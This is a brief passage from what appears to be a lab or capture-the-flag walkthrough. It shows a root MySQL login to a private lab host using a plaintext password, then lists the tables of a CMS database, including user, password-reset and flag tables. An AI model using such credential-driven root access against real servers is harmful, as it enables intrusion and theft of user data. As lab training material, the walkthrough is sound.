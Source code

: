 ![](../../.gitbook/assets/image%20%284%29.png)

```bash
# Tried:
# mysql --host=172.16.64.92 --user=root --password=x41x41x412019! --port 63306 mysql
# Working:

mysql --host=172.16.64.81 --user=root --password=x41x41x412019! --port 13306 mysql
> show databases;
> use cmsbase;
> show tables;
+----------------------------+
| Tables_in_cmsbase          |
+----------------------------+
| flag                       |
| sqlmapfile                 |
| tbl_1_actions_log          |
| tbl_1_categories           |
| tbl_1_categories_relations |
| tbl_1_downloads            |
| tbl_1_files                |
| tbl_1_files_relations      |
| tbl_1_folders              |
| tbl_1_groups               |
| tbl_1_members              |
| tbl_1_members_requests     |
| tbl_1_notifications        |
| tbl_1_options              |
| tbl_1_password_reset       |
| tbl_1_users                |
```